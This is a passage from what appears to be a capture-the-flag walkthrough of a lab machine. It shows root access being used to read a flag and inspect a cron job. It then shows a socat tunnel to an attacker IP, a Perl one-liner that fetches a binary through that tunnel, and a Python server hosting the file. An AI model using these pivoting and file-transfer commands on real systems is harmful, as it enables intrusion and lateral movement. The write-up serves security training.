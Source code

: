 
And I can grab `user.txt`:

    
    
    # cat /home/somaro/user.txt
    c09aca7c...
    

I can also verify the backup cron job that was running (though I now notice I
could have read this even as www–data):

    
    
    # pwd
    /etc/cron.d
    
    # ls -l
    total 4
    -rw-r--r-- 1 root root 38 May  4 20:55 backup
    
    # cat backup
    */3 * * * * root sh /backup/backup.sh
    

## File Upload to www

To move to the next steps, I’ll want to get files uploaded to www, which is
challenging without `curl`, `wget`, or `nc`. Here’s how I do it:

Start a tunnel on nodered that will listen (in this case on 8080) and forward
that to my host:

    
    
    # /tmp/s TCP-LISTEN:8080,fork TCP:10.10.14.14:8888 &
    

Use `perl` to request file:

    
    
    # perl -e 'use File::Fetch; my $url = "http://172.19.0.3:8080/socat"; my $ff = File::Fetch->new(uri => $url); my $file = $ff->fetch() or die $ff->error;'
    

Serve from workstation:

    
    
    root@kali# python3 -m http.server 8888
    Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
    10.10.10.94 - - [25/Jul/2018 08:32:32] "GET /socat HTTP/1.1" 200 -
    